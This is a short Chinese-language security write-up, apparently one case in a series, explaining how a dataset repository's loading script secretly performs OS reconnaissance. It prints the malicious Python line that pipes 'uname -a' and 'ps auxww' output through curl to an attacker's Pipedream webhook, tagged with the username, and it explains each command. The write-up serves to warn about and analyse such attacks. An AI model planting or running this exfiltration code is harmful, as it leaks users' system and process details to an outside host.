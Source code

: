 ## 📌 Case 3：操作系统侦察（OS Reconnaissance）
  
**你加载数据集时，脚本偷偷把你电脑的“身份证”和“运行清单”拍照发走。**

---

### 🎯 攻击场景
- **仓库名**：`Yash2998db/stan_small`（数据集）
- **恶意点**：数据集加载脚本 `__init__` 方法里藏了一段系统侦察代码
- **泄露内容**：操作系统版本、内核、正在运行的进程列表
- **外传方式**：用 `curl` 发送到攻击者的 [Pipedream](https://pipedream.net) 临时 webhook

---

### 🔍 恶意代码（核心 3 行）

```python
subprocess.check_output(
    '(uname -a; ps auxww) | curl -s https://eoxvp5idbpacu69.m.pipedream.net/$(whoami) --data-binary @-',
    shell=True
)
```

| 命令 | 作用 |
|------|------|
| `uname -a` | 打印操作系统+内核版本 |
| `ps auxww` | 打印所有进程详细信息 |
| `curl … --data-binary @-` | 把上面两条命令的输出 POST 到攻击者服务器，URL 里还带当前用户名 |


---

### ✅ 一句话总结
> **看似只是加载一个数据集，实际上脚本已经把你电脑“是谁、在跑什么”全都拍照发走了。**